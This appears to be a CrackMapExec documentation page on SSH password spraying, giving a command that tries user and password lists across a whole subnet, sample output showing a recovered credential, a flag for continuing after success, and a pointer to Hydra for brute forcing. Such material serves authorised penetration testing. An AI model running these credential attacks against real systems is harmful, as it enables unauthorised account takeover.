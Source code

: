 # Password Spraying

### Password spraying (without bruteforce)

```
#~ cme ssh 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
SSH         127.0.0.1       22     127.0.0.1        [*] SSH-2.0-OpenSSH_8.2p1 Debian-4
SSH         127.0.0.1       22     127.0.0.1        [+] user:password
```

{% hint style="info" %}
By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

You can also use [Hydra](https://github.com/vanhauser-thc/thc-hydra) available by default on Kali to bruteforce SSH password, it's faster and better :)
